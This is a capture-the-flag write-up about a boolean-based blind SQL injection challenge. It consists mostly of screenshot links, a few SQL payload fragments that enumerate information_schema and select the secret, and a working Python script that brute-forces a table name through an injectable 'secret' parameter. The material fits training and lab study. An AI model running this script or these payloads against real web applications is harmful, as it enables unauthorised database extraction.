 ```yaml
---
date: 2025-02-07
categories: [CTF, IML]
title: "IML - SQL Injection – Boolean-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce']

description: "SQL Injection – Boolean-Based - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Boolean-Based Blind

[==https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet==](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)

# ![image1](../resources/fe285dbee3a94cb39237250c0a4785c0.png)


![image2](../resources/2a97e65620e9471ba0af7570a289abf1.png)


![image3](../resources/8ce4225cb1554bfc8964d758cd2f83d4.png)


![image4](../resources/4570b8ad300547bd8fd1a1c3163e0b81.png)

- Modify the \<vulnerable parameter\> in the script to secret
(script below)


![image5](../resources/8184673fee3b45349450eba05b7e06ed.png)


![image6](../resources/5e2a063b6d7449708497114231089566.png)

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

- Use the payloads on the github link above, to modify the script
(script below)


![image7](../resources/8a1673fcdfe44d2690e6ec4947870b82.png)


![image8](../resources/01f47b13f0784805b87bfba78b3cd4c3.png)


![image9](../resources/cca450ef4d25473caa140a1667a4d3aa.png)

- Use the generic way of finding column names:
```bash
group_concat(column_name) from information_schema.columns where table_name="users"

```
and modify the script

(script below)


![image10](../resources/79d5f8cf307b4e40b8f68c1c0d50ed2f.png)

- Modify the script (script below) to find the flag
```bash
select secret from data

```

![image11](../resources/a37f0e8c753d4168a997110274189715.png)

Change the range of the for j loop - to include more characters


![image12](../resources/7854b17d11ef48fc9f30dfc28c171837.png)


![image13](../resources/6b402aaa99294b179c32d07f6643058f.png)

**Flag is <u>74f87f</u> \<---- Ignore the Capital F's**

**<u>Blind SQLi DB name bruteforce script</u>**


![image14](../resources/80f48c227cad45248b1d24b30cf334ed.png)

**<u>Blind SQLi Table name bruteforce script</u>**


![image15](../resources/2146f6d7c6f9447387b00f079f8a8521.png)

**<u>Blind SQLi Column name bruteforce script</u>**


![image16](../resources/b53d760778b14d6a9a1eae936d0cb00e.png)

**<u>Find the flag</u>**


![image17](../resources/b8dad631e27e4e219ce191cf6dd8f851.png)

**<u>Script:</u>**

```python
import requests
import sys

# Send the payload to the vulnerable parameter on the target host
# If "OK" is found on the webpage -> true response
def send_payload(ip, payload):
    r = requests.get("http://" + ip + "/dbstatus.php?secret=" + payload)
    if "OK" in r.text:
        return True
    else:
        return False

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "'%20OR%20LENGTH((select table_name from information_schema.tables where table_schema=database()))=%d" % i):
            length = i
            break

    db_name = ''
    for i in range(1, length + 1):
        for j in range(96, 123):  # a-z
            if send_payload(ip, "%20OR%20SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s" % (i, chr(j))):
                db_name += chr(j)
                break
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % (sys.argv[0]))
        sys.exit(1)

    ip = sys.argv[1]
    print(brute_db(ip))

if __name__ == "__main__":
    main()

```
